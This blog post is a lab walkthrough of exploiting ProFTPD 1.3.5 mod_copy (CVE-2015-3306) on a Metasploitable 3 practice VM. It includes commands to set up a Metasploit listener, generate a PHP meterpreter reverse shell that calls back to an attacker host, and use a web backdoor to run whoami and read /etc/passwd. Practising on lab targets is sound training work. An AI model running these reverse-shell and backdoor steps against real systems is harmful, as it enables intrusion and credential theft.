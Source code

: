 ```yaml
---
layout: post
title: "Metasploitable Series"
categories: ["Hands-on", "Metasploitable"]
tags: "Metasploitable Series"
---
```


# Metasploitable Series
## Issue 1

![Nmap Scan](/images/nmap-scan1.png)

The first step that was done was scan the machine using nmap -sV -A

The main focus in this FTP exploitation

VICTIM IP = 192.168.199.130

# FTP services

## Version : ProFTPD 1.3.5

since we get the version number I decided on using _searchsploit_ to locate any existing exploit

### Mode_copy remote command execution

- sudo python 49908.py 192.168.199.130  
  allows the remote attacker to read and write arbitary files via the side CPFR and site CPTO commands
  When running the command we were able to put a test.php in the victim!
  instead of test.php what if i uploaded a _reverse shell_ php?

### Making a backdoor php using venom

we need to upload the reverse shell php and have a listener set up to capture the connection

1. Setting up the listener using msfconsole

- msfconsole
- use exploit/multi/handler
- set Lhost 192.168.199.128
- set Lport 4444
- set payload windows/meterpreter/reverse_tcp
- run

2. Creating reverse shell using msfvenom

- msfvenom -p php/meterpreter_reverse_tcp -o shell.php LHOST=192.168.199.128 LPORT=4444

## Exploiting CVE-2015-3306

i had problems with 49908.py exploit so i used https://github.com/t0kx/exploit-CVE-2015-3306
after reading the exploit I understood that we have to add to the link the cmd command like the below:


http://192.168.199.130/backdoor.php?cmd=ls

### What we can find out

WHOAMI
http://192.168.199.130/backdoor.php?cmd=whoami _www-data_

Os Running
http://192.168.199.130/backdoor.php?cmd=uname -a _Linux metasploitable3-ub1404 3.13.0-24-generic #46-Ubuntu SMP Thu Apr 10 19:11:08 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux_

Users in the machine
http://192.168.199.130/backdoor.php?cmd=cat%20/etc/passwd

users found

- luke_skywalker
- han_solo
- artoo_detoo
- leia_organa
- c_three_pio
- ben_kenobi
- darth_vader
- anakin_skywalker
- jarjar_binks
- lando_calrissian
- boba_fett
- jabba_hutt
- kylo_ren
- chewbacca
- greedo
